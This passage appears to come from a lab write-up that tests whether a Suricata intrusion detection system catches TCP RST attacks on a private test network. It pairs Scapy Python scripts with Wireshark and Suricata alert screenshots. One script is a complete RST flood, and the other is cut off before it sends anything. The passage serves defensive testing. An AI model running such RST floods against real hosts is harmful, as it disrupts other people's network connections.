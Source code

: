 ![r7](https://github.com/user-attachments/assets/ba1b5969-3f6a-45bd-845e-4ed5a052d408)

The resest packet sent can also be traced by wireshark , as shown below:

![r8](https://github.com/user-attachments/assets/f84cba4a-e555-4940-b2bc-c61669e0b0ac)

Suricata shows the alerts:

![r9](https://github.com/user-attachments/assets/17353f47-732c-4284-ae0f-30d261acc02a)

**Script 2: RST Flood Attack without Active Connection**
```python
from scapy.all import *
import time

# Define the target IP and port
target_ip = "192.168.100.50"  # IP of your VM running Suricata
target_port = 80  # Target port

# Define the number of packets and interval
packet_count = 15  # Number of packets to send
interval = 0.1     # Interval between packets

# Create and send TCP RST packets
print(f"Starting RST flood attack on {target_ip}:{target_port}")
for i in range(packet_count):
    pkt = IP(dst=target_ip) / TCP(dport=target_port, flags="R")
    send(pkt, verbose=0)
    print(f"Sent RST packet {i+1}/{packet_count}")
    time.sleep(interval)

print("Attack completed.")
```
Running the Script:

![r10](https://github.com/user-attachments/assets/9b9c3048-0d40-4364-8c77-ecdb49f180d5)

Alert Shown by Suriacta:

![r11](https://github.com/user-attachments/assets/da591d17-ab66-4257-a48f-a104b2fbd0e0)

**Script 3: RST Flood Attack with Active Connection**
```python

from scapy.all import *
import time

# Define the target IP and port
target_ip = "192.168.100.50"  # IP of your server
target_port = 12345          # Server's port

# Define the source IP and port
source_ip = "192.168.100.51"  # IP of the attacking machine
source_port = 54321           # Port used by the attacker

# Sequence and acknowledgment numbers from an established connection
seq_number = 1
ack_number = 1

# Define the number of packets and interval
packet_count = 15  # Number of packets to send
interval = 0.1     # Interval between packets

# Create and send TCP RST packets
print(f"Starting RST flood attack on {target_ip}:{target_port}")
```